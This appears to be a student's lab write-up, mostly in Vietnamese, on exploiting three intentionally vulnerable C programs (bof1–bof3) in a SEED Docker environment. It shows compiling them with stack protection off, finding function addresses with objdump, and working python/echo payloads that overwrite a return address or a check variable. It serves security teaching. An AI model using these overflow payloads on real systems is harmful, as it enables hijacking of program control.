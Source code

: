 # LAB 1

**Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)**

`docker run -it --privileged -v D:\IS\Security-labs\Software\buffer-overflow:/home/seed/seclabs img4lab`

## Conduct bof1.c

**Run bof1.c file** 

`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](./images/gcc.png)
 Đặt tên cho tệp thực thi đầu ra là `bof1.out`
 `-fno-stack-protector:`Tắt tính năng bảo vệ stack (stack protector). Stack protector là cơ chế bảo vệ chống lại các cuộc tấn công buffer overflow bằng cách thêm "canaries" vào stack. Tùy chọn này tắt tính năng đó, giúp dễ dàng kiểm tra hoặc khai thác lỗ hổng tràn bộ đệm (buffer overflow).

 `-mpreferred-stack-boundary=2:`Điều chỉnh căn chỉnh (alignment) stack cho các hàm và biến cục bộ. Tùy chọn này đặt độ căn chỉnh của stack thành 2 (tức là 4 byte, vì căn chỉnh 2^n byte). Điều này có thể làm cho chương trình dễ bị khai thác hơn khi kết hợp với các lỗi như buffer overflow.

**Tìm hàm secretFunc()**

`objdump -d bof1.out|grep secretFunc`

![alt text](./images/objdump1.png)
`objdump`: Là một công cụ để hiển thị thông tin về các tệp binary hoặc file bof1.out.
`-d:` Tùy chọn này yêu cầu objdump giải mã và hiển thị phần mã lệnh của tệp **bof1.out**. Điều này có nghĩa là lệnh sẽ giải mã phần mã máy trong tệp bof1.out và hiển thị dưới dạng mã hợp ngữ *(assembly code)*.

`| grep secretFunc:`
`| (pipe):` Ký tự pipe (|) dùng để chuyển đầu ra từ lệnh phía bên trái (trong trường hợp này là objdump) thành đầu vào cho lệnh phía bên phải (trong trường hợp này là grep).
`grep secretFunc:` Grep là công cụ tìm kiếm văn bản. Nó sẽ tìm kiếm chuỗi ký tự "secretFunc" trong đầu ra của lệnh  `objdump -d`  .

=> Cụ thể, grep secretFunc sẽ tìm và chỉ hiển thị những dòng nào chứa từ "secretFunc" trong phần mã lệnh disassembly của tệp bof1.out.
Ta có địa chỉ của hàm secretFunc() là: `0804846b`

**Stack frame bof1**

![alt text](./images/Stackframe1.png)

=> *Buffer overflow sẽ ngừng tại 205 bytes tại return address.*

**Thực hiện chạy chương trình**

Dòng lệnh này tạo ra một chuỗi 204 ký tự 'a', tiếp theo là một địa chỉ bộ nhớ cụ thể, rồi truyền chuỗi đó vào chương trình bof1.out.
Mục đích là để gây ra một cuộc buffer overflow và thay đổi địa chỉ trả về của chương trình, nhằm chiếm quyền điều khiển hoặc thực thi mã tại địa chỉ đó.
 `echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out`

![alt text](./images/echo1.png)

=> Missing argument =>Thành công



## Run bof2.c


- Kích thước của buf: trong trường hợp này mình đang sử dụng `fgets(buf, 45, stdin);`, nhưng kích thước của mảng buf chỉ là 40 bytes. Điều này có thể gây ra tràn bộ nhớ (buffer overflow) nếu nhập dữ liệu dài hơn 39 ký tự (cộng với ký tự null \0).

- Đoạn mã sẽ kiểm tra giá trị của check. Để thay đổi giá trị này từ 0x04030201 sang 0xdeadbeef
 
**Stackframe bof2**

![alt text](./images/Stackframe2.png)

**Chạy file bof2.c  bằng gcc**


`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./images/gcc2.png)

**Chạy chương trình**

`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`

![alt text](./images/echo2.png)

=> Khai thác thành công lỗ hổng tràn bộ nhớ trong chương trình.


## Run bof3.c


- Trong trường hợp này, mảng `buf[]` có 128 phần tử, nhưng lệnh `fgets()` đọc tới 133 phần tử.

 => Nếu nhập dữ liệu đủ dài (hơn 128 ký tự), vùng nhớ sau buf sẽ bị ghi đè, dẫn đến tràn bộ nhớ.

**Stack frame**

![alt text](./images/Stackframe3.png)

**Run the bof3.c file**

`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`

![alt text](./images/gcc3.png)
**Lấy địa chỉ hàm shell:**
`objdump -d bof3.out|grep shell`

![alt text](./images/objdump3.png)

=> Vậy địa chỉ của hàm shell là: `0804845b`

**Chạy chương trình**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./images/echo3.png)

=> Thành công
